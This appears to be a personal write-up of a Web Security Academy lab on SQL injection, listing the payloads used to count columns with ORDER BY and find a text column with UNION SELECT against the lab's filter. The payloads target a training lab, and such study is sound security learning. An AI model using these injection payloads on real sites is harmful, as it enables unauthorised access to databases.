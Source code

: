 # SQL injection UNION attack, finding a column containing text

1. SQLi: product category filter.
2. Goal:
    - determine the number of columns.
    - identify a column that is compatible with string data.

### Analysis
- Website target: `https://0a5100760463bde9809612ee00300062.web-security-academy.net/`
- Use Burp suite.
- `ctrl + u`: URL encode.

1. Find the number of columns.
```sql
' order by 3--
'-- I found 3 columns.
```

2. Find the data type of these columns.
```sql
' union select null, 'a', null--
'-- I found some strings on the page: g72GkI

' union select null, 'g72GkI', null--
```